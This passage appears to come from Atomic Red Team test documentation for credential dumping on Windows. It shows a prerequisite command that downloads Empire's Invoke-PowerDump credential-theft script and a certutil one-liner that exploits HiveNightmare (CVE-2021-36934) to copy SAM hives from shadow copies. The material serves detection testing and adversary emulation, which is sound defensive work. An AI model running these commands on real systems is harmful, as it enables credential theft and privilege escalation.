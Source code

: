 


#### Dependencies:  Run with `powershell`!
##### Description: PowerDump script must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\PowerDump.ps1") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
Invoke-Webrequest -Uri "https://raw.githubusercontent.com/BC-SECURITY/Empire/c1bdbd0fdafd5bf34760d5b158dfd0db2bb19556/data/module_source/credentials/Invoke-PowerDump.ps1" -UseBasicParsing -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PowerDump.ps1"
```




<br/>
<br/>

## Atomic Test #5 - dump volume shadow copy hives with certutil
Dump hives from volume shadow copies with the certutil utility, exploiting a vulnerability known as "HiveNightmare" or "SeriousSAM".
This can be done with a non-admin user account. [CVE-2021-36934](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-36934)

**Supported Platforms:** Windows


**auto_generated_guid:** eeb9751a-d598-42d3-b11c-c122d9c3f6c7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_hive | Hive you wish to dump | string | SAM|
| limit | Limit to the number of shadow copies to iterate through when trying to copy the hive | integer | 10|


#### Attack Commands: Run with `command_prompt`! 


```cmd
for /L %a in (1,1,#{limit}) do @(certutil -f -v -encodehex "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy%a\Windows\System32\config\#{target_hive}" %temp%\#{target_hive}vss%a 2 >nul 2>&1) & dir /B %temp%\#{target_hive}vss*
```
